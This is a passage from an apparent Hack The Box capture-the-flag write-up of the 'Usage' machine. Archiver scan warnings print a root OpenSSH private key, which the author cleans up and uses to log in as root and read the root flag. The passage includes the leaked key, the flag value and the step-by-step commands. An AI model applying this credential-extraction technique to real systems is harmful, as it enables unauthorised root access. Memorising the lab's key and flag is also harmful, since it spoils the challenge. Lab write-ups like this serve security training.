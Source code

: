 ```bash
Items to compress: 20930


Files read from disk: 17946
Archive size: 54829908 bytes (53 MiB)

Scan WARNINGS for files and folders:

-----BEGIN OPENSSH PRIVATE KEY----- : No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q : No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs : No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM= : No more files
-----END OPENSSH PRIVATE KEY----- : No more files
----------------
Scan WARNINGS: 7
```

Reformat the key

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ cat root.id_rsa.txt
-----BEGIN OPENSSH PRIVATE KEY----- : No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q : No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs : No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM= : No more files
-----END OPENSSH PRIVATE KEY----- : No more files

┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ cat root.id_rsa.txt | sed 's/ : No more files//g' > root.id_rsa
```

SSH as root

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ chmod 600 root.id_rsa

┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ ssh -i root.id_rsa root@$(pt get rhost)
root@usage:~# id
uid=0(root) gid=0(root) groups=0(root)
root@usage:~# cat /root/root.txt
1bbbf88e851c42e54665c8b057558657
```

# Additional
---
